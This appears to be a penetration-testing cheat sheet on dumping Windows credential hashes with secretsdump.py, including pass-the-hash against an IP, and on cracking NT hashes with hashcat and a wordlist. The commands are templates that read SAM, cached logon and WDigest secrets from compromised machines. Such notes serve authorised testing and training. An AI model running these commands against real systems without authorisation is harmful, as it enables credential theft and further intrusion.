 # Dumping Hashes
Whenever an account is compromised, dumping the secrets of the account is always a good idea.

How to dump information from a machine you possess the username:password:
```bash
secretsdump.py [DOMAIN]/[USERNAME]:'[PASSWORD]'@[IP_ADDRESS]
```
How to dump information from a machine you possess the username and hash for:
```bash
secretsdump.py [USERNAME]:@[IP_ADDRESS] -hashes [FULL NTLM HASH]
```
Note: NTLM hashes have a ":" that divides them between LM and NT hashes.

ALWAYS grab SAM hashes of all accounts (except Guest, WDAGUtility, They don't matter).

Worth grabbing cached domain logon info as well.

Cleartext passwords showing up are possible. Especially on older machines that use WDigest (which stores the password in plaintext).
# Cracking hashes
The only portion of NTLM hashes that need to be cracked is the NT portion of the hash.
1. Remember, the hash is structured like this: LM:NT
Store the NT hash in a txt file. e.g. ntlm.txt
2. Use hash identifier to check what should be used for hashcat:
```bash
hash-identifier
```
Enter hash when prompted.
3. Search hashcat for what options to use (optional):
```bash
hashcat --help | grep "NTLM"
```
4. Use hashcat to crack the hash:
```bash
hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt 
```
* Add -O if on bare-metal
* Add -r OneRuleToRuleThemAll ruleset to include p@$$w0rd mutations.